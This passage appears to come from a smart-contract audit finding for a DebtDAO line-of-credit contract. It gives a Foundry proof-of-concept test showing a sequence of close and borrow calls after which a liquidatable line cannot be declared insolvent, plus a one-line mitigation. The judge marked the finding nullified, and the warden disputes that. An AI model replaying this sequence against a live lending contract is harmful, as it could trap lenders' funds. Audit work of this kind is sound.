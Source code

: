     function _addCreditLender2(address token, uint256 amount) public {
        // Prepare lender 2 operations, does same as mintAndApprove()
        address lender2 = address(21);
        deal(lender2, mintAmount);
        supportedToken1.mint(lender2, mintAmount);
        supportedToken2.mint(lender2, mintAmount);
        unsupportedToken.mint(lender2, mintAmount);
        vm.startPrank(lender2);
        supportedToken1.approve(address(line), MAX_INT);
        supportedToken2.approve(address(line), MAX_INT);
        unsupportedToken.approve(address(line), MAX_INT);
        vm.stopPrank();
        // addCredit logic
        vm.prank(borrower);
        line.addCredit(dRate, fRate, amount, token, lender2);
        vm.stopPrank();
        vm.prank(lender2);
        line.addCredit(dRate, fRate, amount, token, lender2);
        vm.stopPrank();
    }
    function test_attackUnliquidatable() public {
        bytes32 id_1;
        bytes32 id_2;
        _addCredit(address(supportedToken1), 1 ether);
        _addCreditLender2(address(supportedToken1), 1 ether);
        id_1 =  line.ids(0);
        id_2 =  line.ids(1);
        hoax(borrower);
        line.close(id_1);
        hoax(borrower);
        line.borrow(id_2, 1 ether);
        id_1 =  line.ids(0);
        id_2 = line.ids(1);
        console.log("id1 : ", uint256(id_1));
        console.log("id2 : ", uint256(id_2));
        vm.warp(ttl+1);
        assert(line.healthcheck() == LineLib.STATUS.LIQUIDATABLE);
        vm.expectRevert(ILineOfCredit.NotBorrowing.selector);
        bool isSolvent = line.declareInsolvent();
    }

### [](#recommended-mitigation-steps-4)Recommended Mitigation Steps

When sorting new borrows into the ids queue, do not skip any elements.

**[dmvt (judge) marked as nullified](https://github.com/code-423n4/2022-11-debtdao-findings/issues/421)**

**[Trust (warden) commented](https://github.com/code-423n4/2022-11-debtdao-findings/issues/421#issuecomment-1341256600):**

> Unclear why this issue is nullified, I have demonstrated a POC that shows line cannot be declared insolvent.

